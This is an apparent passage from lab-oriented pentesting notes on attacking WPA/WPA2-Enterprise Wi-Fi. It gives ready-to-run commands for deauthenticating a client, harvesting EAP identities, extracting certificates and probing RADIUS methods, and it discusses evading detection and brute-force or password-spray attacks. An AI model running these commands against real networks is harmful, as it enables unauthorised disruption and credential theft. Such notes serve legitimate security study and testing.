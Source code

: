 ```bash
aireplay-ng -0 1 -a 9C:9A:03:39:BD:7A -c 9A:B7:A6:32:F3:D6 wlan0mon
```

**Extract identity with tshark**

```bash
tshark -r WPA-01.cap -Y '(eap && wlan.ra == 9c:9a:03:39:bd:7a) && (eap.identity)' -T fields -e eap.identity
# prints HTB\Ketty
```

**Run crEAP (automated identity harvesting)**

```bash
python2 /opt/crEAP/crEAP.py
# prompts for interface & channel; listens and prints EAP identities
```

**Extract certificate (script)**

```bash
bash /opt/pcapFilter.sh -f /home/wifi/WPA-01.cap -C
# saves cert(s) to /tmp/certs/*.der
```

**Probe RADIUS/EAP methods for an identity**

```bash
/opt/EAP_buster/EAP_buster.sh HTB-Corp 'HTB\Ketty' wlan0mon
# prints supported/not supported EAP methods for that identity
```

---

## Attacker considerations & detection risks

- Evil‑twin and rogue RADIUS attacks are noisy — may trigger wireless IDS/IPS and endpoint warnings (certificate warnings, captive‑portal alerts).
    
- Certificate pinning on clients (EAP‑TLS / PEAP with validation) greatly reduces success of rogue RADIUS attacks.
    
- PMK caching can prevent capturing a full EAP handshake; cache TTL varies (MS default 720 minutes) — you may need to wait for expiry or perform other tricks.
    
- Anonymous outer identities reduce the amount of harvestable info; inner identity may still be captured inside the tunnel only if you successfully establish a tunnel (rogue server) or MITM the connection.
    

---

## Performing Bruteforce Attacks (Air‑Hammer)

**When to use:** Online attacks against WPA/WPA2‑Enterprise where you have (1) SSID, (2) a username list and either (3) a single password or (4) a password list. Useful both for **horizontal** (one user, many passwords) and **password‑spray** (one password, many users) strategies.
